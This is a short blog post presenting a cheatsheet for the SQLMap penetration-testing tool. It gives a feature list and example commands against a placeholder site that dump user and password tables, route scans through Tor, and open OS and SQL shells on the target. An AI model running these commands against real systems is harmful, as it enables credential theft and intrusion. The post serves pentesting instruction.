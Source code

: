 ```yaml
---
layout: post
title: "SQLMap Cheatsheet"
subtitle: "~ SQLMap Cheatsheet ~"
date: 2023-07-31
author: ha3ks
tags: tool ctf pentesting sqlmap 
category: Tooling
---
```

I thought it might be fun to add another cheatsheet to the collection, this time for the tool SQLMap.

SQLMap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

![SQLMap](https://sqlmap.org/images/screenshot.png)

## Features

* Full support for <b>MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, Informix, MariaDB, MemSQL, TiDB, CockroachDB, HSQLDB, H2, MonetDB, Apache Derby, Amazon Redshift, Vertica, Mckoi, Presto, Altibase, MimerSQL, CrateDB, Greenplum, Drizzle, Apache Ignite, Cubrid, InterSystems Cache, IRIS, eXtremeDB, FrontBase, Raima Database Manager, YugabyteDB, ClickHouse and Virtuoso</b> database management systems.
* Full support for six SQL injection techniques: <b>boolean-based blind, time-based blind, error-based, UNION query-based, stacked queries and out-of-band.</b>
* Support to <b>directly connect to the database</b> without passing via a SQL injection, by providing DBMS credentials, IP address, port and database name.
* Support to enumerate <b>users, password hashes, privileges, roles, databases, tables and columns.</b>
* Automatic recognition of password hash formats and support for <b>cracking them using a dictionary-based attack.</b>
* Support to <b>dump database tables</b> entirely, a range of entries or specific columns as per user's choice. The user can also choose to dump only a range of characters from each column's entry.
* Support to <b>search for specific database names, specific tables across all databases or specific columns across all databases' tables.</b> This is useful, for instance, to identify tables containing custom application credentials where relevant columns' names contain string like name and pass.
* Support to <b>download and upload any file</b> from the database server underlying file system when the database software is MySQL, PostgreSQL or Microsoft SQL Server.
* Support to <b>execute arbitrary commands and retrieve their standard output</b> on the database server underlying operating system when the database software is MySQL, PostgreSQL or Microsoft SQL Server.
* Support to <b>establish an out-of-band stateful TCP connection between the attacker machine and the database server</b> underlying operating system. This channel can be an interactive command prompt, a Meterpreter session or a graphical user interface (VNC) session as per user's choice.
* Support for <b>database process' user privilege escalation</b> via Metasploit's Meterpreter `getsystem` command.
Refer to the wiki for an exhaustive breakdown of the features.

Easy Scanning option:

```shell
sqlmap -u "http://testsite.com/login.php"
```

Scanning by using tor:

```shell
sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5
```

Scanning by manually setting the return time:

```shell
sqlmap -u "http://testsite.com/login.php" --time-sec 15
```

List all databases at the site:

```shell
sqlmap -u "http://testsite.com/login.php" --dbs
```

List all tables in a specific database:

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db --tables
```

Dump the contents of a DB table:

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump
```

List all columns in a table:

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns
```

Dump only selected columns:

```shell
sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
```

Dump a table from a database when you have admin credentials:

```shell
sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump
```

Get OS Shell:

```shell
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell
```

Get SQL Shell:

```shell
sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell
```

This is purely quick and dirty commands you can run for SQLMap. I would highly recommend as a glowing pentester to read the ultimate manual for SQLMap which can be found [here](https://github.com/aramosf/sqlmap-cheatsheet/blob/master/sqlmap%20cheatsheet%20v1.0-SBD.pdf).


-------


I don't have any sponsors or anything but if you enjoy my work, or feel sympathy for my wife, then I have set up a [Ko-Fi account](https://ko-fi.com/ha3ks) as well as a [BuyMeACoffee](https://www.buymeacoffee.com/ha3ks) people can donate to.